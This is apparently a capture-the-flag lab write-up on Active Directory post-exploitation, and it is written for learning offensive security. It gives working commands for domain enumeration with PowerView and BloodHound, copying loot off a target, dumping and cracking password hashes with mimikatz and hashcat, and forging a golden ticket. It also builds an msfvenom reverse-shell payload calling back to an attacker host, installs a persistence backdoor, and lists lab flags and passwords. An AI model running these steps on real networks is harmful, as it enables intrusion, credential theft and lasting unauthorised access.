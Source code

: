 # Post-Exploitation Basics - Easy

1. [Enumeration with Powerview](#enumeration-with-powerview)
2. [Enumeration with Bloodhound](#enumeration-with-bloodhound)
3. [Dumping hashes with mimikatz](#dumping-hashes-with-mimikatz)
4. [Golden Ticket Attacks with mimikatz](#golden-ticket-attacks-with-mimikatz)
5. [Enumeration with Server Manager](#enumeration-with-server-manager)
6. [Maintaining Access](#maintaining-access)

## Enumeration with Powerview

* Powerview is a PowerShell script for enumerating a domain after gaining a shell in the system.

* We can use resources such as [PowerView CheatSheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

```shell
ssh Administrator@10.10.199.137
#ssh into target machine

powershell -ep bypass
#bypass execution policy of powershell
#to run scripts

. .\Downloads\PowerView.ps1
#start powerview

Get-NetUser | select cn
#enumerate domain users
#gives flag

Get-NetGroup -GroupName *admin*
#enumerate domain groups

Invoke-ShareFinder
#find shares

Get-NetComputer -FullData
#return full info of computers
```

```markdown
1. What is the shared folder that is not set by default? - Share

2. What operating system is running inside of the network besides Windows Server 2019? - Windows 10 Enterprise Evaluation

3. Find the flag. - POST{P0W3RV13W_FTW}
```

## Enumeration with Bloodhound

* Bloodhound is a GUI used to visually map out the network.

* It is used with SharpHound (like PowerView) to get network details into .json files.

```shell
#on attacker machine
sudo neo4j console
#start neo4j

#on target machine
powershell -ep bypass

. .\Downloads\SharpHound.ps1
#start SharpHound

Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
#get loot with SharpHound

dir
#to check loot file

#on attacker machine
#copy loot file using scp
scp Administrator@10.10.199.137:C:/Users/Administrator/20220519113424_loot.zip ~/

bloodhound
#login
#change default creds neo4j:neo4j
#once inside bloodhound GUI, import loot zip file
#use queries
```

```markdown
1. What service is also a domain admin? - sqlservice

2. What two users are Kerberoastable? - sqlservice, krbtgt
```

## Dumping hashes with mimikatz

```shell
#in target machine
cd Downloads

mimikatz.exe

privilege::debug

lsadump::lsa /patch
#dump hashes

#in attacker machine
#copy hashes and crack
hashcat -m 1000 machine1hash.txt /usr/share/wordlists/rockyou.txt
```

```markdown
1. What is the Machine 1 password? - Password1

2. What is the Machine 2 hash? - c39f2beb3d2ec06a62cb887fb391dee0
```

## Golden Ticket Attacks with mimikatz

```shell
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt

kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
#sid, krbtgt and id to be filled from previous command

#use golden ticket to access other machines
misc::cmd
#cmd with elevated privileges
```

## Enumeration with Server Manager

```shell
sudo vim /etc/hosts
#add 10.10.199.137:CONTROLLER.local to hosts

rdesktop -u Administrator -p 'P@$$W0rd' -d CONTROLLER -v 10.10.199.137
#rdp
```

```markdown
We can open Windows Server Manager now and view the tabs.

Mainly, we can check the Tools and Manage tabs.

Navigate to Tools > Active Directory Users and Computers.

We can view the password for SQL Service.
```

```markdown
1. What tool allows to view the event logs? - Event Viewer

2. What is the SQL Service password? - MYpassword123#
```

## Maintaining Access

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.48.136 LPORT=4444 -f exe -o payload.exe
#generate payload

#transfer payload from attacker to target machine

#in attacker machine
msfconsole

use /exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

#set required options

run
#get meterpreter shell

background

use exploit/windows/local/persistence

set session 1
#persistence module creates a backdoor
```
